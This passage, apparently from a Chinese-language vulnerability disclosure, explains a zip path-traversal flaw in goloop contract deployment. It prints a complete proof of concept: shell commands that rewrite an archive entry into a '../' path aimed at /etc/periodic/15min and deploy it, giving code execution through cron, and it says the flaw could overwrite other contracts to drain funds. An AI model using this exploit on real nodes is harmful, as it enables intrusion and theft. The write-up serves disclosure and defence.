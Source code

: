 内容设置为：  
```
#!/bin/sh

echo pwnd> /pwnd

#other evil stuff
```  
  
这样就可以在“/etc/periodic/15min/evil”中创建一个‘恶意’文件， 15 分钟内，Bash 脚本将运行，从而获得 RCE 。  
  
如果文件已经存在，该函数将会覆盖文件，这意味着利用该漏洞还可以选择覆盖其它合约代码，然后调用它们并提取所有资金。  
  
恶意zip文件创建通过以下步骤实现：  
- 使用“zip -r”命令创建常规 zip 文件  
  
- 在文本编辑器中编辑 zip 文件并将文件名更改为“遍历路径”文件名  
  
- 使用合约部署方法将恶意 zip 作为交易发送：  
  
```
./goloop/bin/goloop rpc sendtx deploy /mnt/c/repos/exploit_python_contract/hello.tar — uri http://localhost:9080/api/v3/icon — key_store wallet.json — key_password gochain — nid 0x9383b0 — step_limit 10000000000 — content_type application/zip — param name=Alice
```  
  
研究人员没有在公共测试网络上测试该漏洞，为了避免恶意攻击者利用，而且一旦该漏洞出现在区块链上，任何人都可以看到它，作为替代方案，研究人员在创建的本地测试网络上测试并成功利用，测试网络运行了最新版本的代码（v1.3.3-1-g733 a19 d9）。  
  
以下是完整的PoC代码：  
```
mkdir hello_world

echo “aaa” >> hello_world/package.json

echo “aaa” >> hello_world/__init__.py

echo “aaa” >> hello_world/hello_world.py

echo “#!/bin/sh” >> hello_world/aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

echo “echo pwnd> /pwnd” >> hello_world/aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

zip -r hello.tar hello_world/

sed -i ‘$ s/aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa/\/\.\.\/\.\.\/\.\.\/\.\.\/\.\.\/\.\.\/\.\.\/\.\.\/\.\.\/\.\.\/\.\.\/\.\.\/etc\/periodic\/15min\/evin/’ hello.tar

./goloop/bin/goloop rpc sendtx deploy hello.tar — uri http://localhost:9080/api/v3/icon — key_store wallet.json — key_password gochain — nid 0x9383b0 — step_limit 10000000000 — content_type application/zip — param name=Alice — debug
```  
  
路径更改前的压缩文件内容：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/hZj512NN8jmxxAAvhfwoPKSm4C5SDaB08gWub9licDbrsibr57pw22qqyPHp5Cb8PJpqT4HySN0umPSojQD1Fy6g/640?wx_fmt=png&from=appmsg "")  
  